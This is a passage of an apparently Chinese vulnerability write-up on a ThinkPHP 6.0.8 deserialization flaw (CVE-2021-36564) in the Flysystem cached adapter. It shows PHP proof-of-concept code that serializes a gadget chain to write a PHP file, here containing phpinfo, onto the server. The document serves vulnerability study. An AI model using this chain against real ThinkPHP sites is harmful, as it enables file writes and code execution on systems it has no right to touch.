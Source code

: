 ```bash
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

### 参考

[https://zhuanlan.zhihu.com/p/652094569](https://zhuanlan.zhihu.com/p/652094569)

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9
